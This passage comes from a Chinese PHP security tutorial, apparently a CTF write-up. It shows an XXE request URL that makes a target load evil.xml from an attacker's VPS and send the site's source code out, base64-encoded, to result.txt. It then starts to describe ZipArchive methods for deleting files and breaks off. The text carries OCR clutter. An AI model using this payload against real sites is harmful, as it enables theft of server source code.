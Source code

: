     
    
    1  
    

|

    
    
    /show.php?module=SimpleXMLElement&args[]=http://47.xxx.xxx.72/evil.xml&args[]=2&args[]=true  
      
  
---|---  
  
`  
`

`这样目标主机先加载我们vps上的evil.xml，再send.xml加载。`

`如下图所示，成功将网站的源码以base64编码的形式读取并带出到result.txt中：`

`![](https://gitee.com/fuli009/images/raw/master/public/20210826084301.png)`

`解题过程不用写了。`

# `使用 ZipArchive 类来删除文件`

## `ZipArchive 类`

`PHP ZipArchive 类是 PHP 的一个原生类，它是在 PHP 5.20 之后的日期。ZipArchive 类可以对文件进行压缩与解压缩处理。`

`下面几个常见的类方法：`

  * ``ZipArchive::addEmptyDir`：添加一个新的文件目录`

  * ``ZipArchive::addFile`：将文件添加到指定zip压缩包中`

  * ``ZipArchive::addFromString`：添加新的文件同时将内容添加进去`

  * ``ZipArchive::close`：关闭压缩包`

  * ``ZipArchive::extractTo`：将压缩包解压`

  * ``ZipArchive::open`：打开一个zip压缩包`

  * ``ZipArchive::deleteIndex`：删除压缩包中的某个文件，如：deleteIndex(0)代表删除第一个文件`

  * ``ZipArchive::deleteName`：删除压缩包中的某个文件名称，同时也将文件删除`

  * `……`

`我们来重点看看`ZipArchive::open`方法：`

`  
`

``

`PHP`

``

    
